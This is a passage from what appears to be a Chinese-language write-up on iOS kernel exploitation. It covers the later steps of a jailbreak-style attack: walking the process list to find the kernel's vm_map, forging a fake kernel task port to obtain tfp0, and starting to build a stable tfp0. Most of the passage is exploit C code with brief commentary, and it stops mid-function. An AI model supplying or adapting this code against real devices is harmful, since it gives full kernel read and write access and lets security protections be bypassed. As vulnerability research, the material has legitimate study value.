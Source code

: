```c
    if (!bsd_info) {
        printf("[-] kernel read failed!\n");
        goto err;
    }
    
    uint32_t pid;
    kr32(bsd_info + koffset(KSTRUCT_OFFSET_PROC_PID), pid);
    
    if (pid == 0) {
        uint64_t vm_map;
        kr64(struct_task + koffset(KSTRUCT_OFFSET_TASK_VM_MAP), vm_map);
        if (!vm_map) {
            printf("[-] kernel read failed!\n");
            goto err;
        }
        
        kernel_vm_map = vm_map;
        break;
    }
    
    kr64(struct_task + koffset(KSTRUCT_OFFSET_TASK_PREV), struct_task);
}
```

由于 `proc` 是一个双向链表，我们可以从当前进程开始向前枚举，直至 pid=0，再从 kernel task 中取出 `vm_map`。

# 第一个 tfp0
将上述获取到的 `kernel vm_map` 写入 fakeport，现在我们有了一个合法的 `kernel task port`：
```c
read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);
    
fake_task->lock.data = 0x0;
fake_task->lock.type = 0x22;
fake_task->ref_count = 100;
fake_task->active = 1;
fake_task->map = kernel_vm_map;
*(uint32_t *)((uint64_t)fake_task + koffset(KSTRUCT_OFFSET_TASK_ITK_SELF)) = 1;

if (SMAP) {
    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);
}
```

此时我们应该已经拥有一个 tfp0 port，可以借助于 mach_vm 相关的内存函数予以验证。

# 稳定的 tfp0
上述 tfp0 是一个偷梁换柱而来的 task port，可能会埋下一些隐患。接下来我们可以用 tfp0 去创建一个合法、稳定、安全的 tfp0：
```c
mach_port_t new_tfp0 = new_port();
if (!new_tfp0) {
    printf("[-] failed to allocate new tfp0 port\n");
    goto err;
}

uint64_t new_addr = find_port(new_tfp0, self_port_addr);
if (!new_addr) {
    printf("[-] failed to find new tfp0 port address\n");
    goto err;
}

uint64_t faketask = kalloc(0x600);
if (!faketask) {
```